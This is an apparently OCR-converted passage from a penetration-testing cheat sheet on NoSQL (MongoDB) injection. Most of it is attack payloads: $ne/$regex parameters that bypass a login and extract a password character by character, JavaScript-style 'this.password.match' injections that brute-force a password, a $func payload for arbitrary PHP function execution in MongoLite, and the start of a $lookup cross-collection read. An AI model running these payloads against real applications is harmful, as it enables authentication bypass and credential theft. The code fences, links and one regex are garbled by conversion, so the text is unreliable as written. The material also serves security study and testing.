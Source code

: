 ```bash
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
# True if the length equals 1,3...
```
```
### Extract **data** information

```
in URL (if length == 3)
username[$ne]=toto&password[$regex]=a.{2}
username[$ne]=toto&password[$regex]=b.{2}
...
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```
```
### **SQL - Mongo**

```
/?search=admin' && this.password%00 --> Check if the field password exists
/?search=admin' && this.password && this.password.match(/.*/index.html)%00 --> start matching password
/?search=admin' && this.password && this.password.match(/^a.*$/)%00
/?search=admin' && this.password && this.password.match(/^b.*$/)%00
/?search=admin' && this.password && this.password.match(/^c.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj.*$/)%00
...
/?search=admin' && this.password && this.password.match(/^duvj78i3u$/)%00  Found
```
```
### PHP Arbitrary Function Execution

Using the **$func** operator of the [[https://github.com/agentejo/cockpit/tree/0.11.1/lib/MongoLite) library (used by default) it might be possible to execute and arbitrary function as in [this report](https://swarm.ptsecurity.com/rce-cockpit-cms/|MongoLite]].

```python
"user":{"$func": "var_dump"}
```
```
![[<../images/image (933).png>|https://swarm.ptsecurity.com/wp-content/uploads/2021/04/cockpit_auth_check_10.png]]

### Get info from different collection

It's possible to use [[https://www.mongodb.com/docs/manual/reference/operator/aggregation/lookup/|**$lookup**]] to get info from a different collection. In the following example, we are reading from a **different collection** called **`users`** and getting the **results of all the entries** with a password matching a wildcard.

**NOTE:** `$lookup` and other aggregation functions are only available if the `aggregate()` function was used to perform the search instead of the more common `find()` or `findOne()` functions.

```json
[
  {
```